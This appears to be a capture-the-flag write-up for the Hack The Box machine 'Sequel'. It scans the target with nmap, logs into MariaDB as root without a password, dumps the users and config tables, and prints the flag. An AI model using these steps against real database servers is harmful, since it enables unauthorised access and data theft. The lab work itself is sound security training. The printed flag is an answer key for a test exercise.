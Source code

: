 ```yaml
---

---
```


# Sequel
---
## Getting Started
---
Use command to set Target IP
```bash
IP=10.129.36.2 ; echo $IP
```

Use command to set Target IP
```bash
HIP="$(ifconfig tun0  | grep -Eo 'inet (addr:)?([0-9]*\.){3}[0-9]*' | grep -Eo '([0-9]*\.){3}[0-9]*' | grep -v '127.0.0.1')" ; echo $HIP

```
---
## Enumeration
---
### NMAP
---
Nmap Command Ran
```bash
nmap -sV -sC $IP | copy
```

Results
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-30 13:10 EDT
Nmap scan report for 10.129.36.2
Host is up (0.027s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, Support41Auth, Speaks41ProtocolOld, SupportsTransactions, InteractiveClient, ConnectWithDatabase, Speaks41ProtocolNew, LongColumnFlag, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ODBCClient, IgnoreSigpipes, FoundRows, SupportsLoadDataLocal, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: |'J~\3)r'gTOoay[=^Cq
|_  Auth Plugin Name: mysql_native_password
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 206.95 seconds
```

**Findings**
Port 3306 is running mysql Version: 5.5.5-10.3.27-MariaDB-0+deb10u1

---
## Foothold
Test for passwordless authentication

Command
```bash
mysql -h $IP -u root
```

Result
```bash
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 79
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 

```

Gained access.



---
## Lateral Movement
---

See what databases are available.

Here are some basic commands.
| COMMAND | INFO | 
| ------- | ---- |
|SHOW databases; | Prints out the databases we can access.  
|USE {database_name}; | Set to use the database named {database_name}.  
|SHOW tables; | Prints out the available tables inside the current database. | 
|SELECT * FROM {table_name}; | Prints out all the data from the table {table_name}.|

Command
```bash
Show databases;
```

Result
```bash
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.029 sec)
```


htb seems weird. could it mean hack the box?

Command
```bash
USE htb;

```

Result
```bash
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]>
```

Time to look around

Command
```bash
Show tables;
```

Result
```bash
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.035 sec)

```

See what is in the users table.

Command
```bash
SELECT * FROM users;
```

Result
```bash
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.083 sec)

```

See whats in the config table.

Command
```bash
SELECT * FROM config;
```

Result
```bash
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.028 sec)

```


---
## Flags
id flag
```bash
7b4bec00d1a39e3dd4e021ec3d915da8
```



---
## Tags
---
#sql #mysql #MariaDB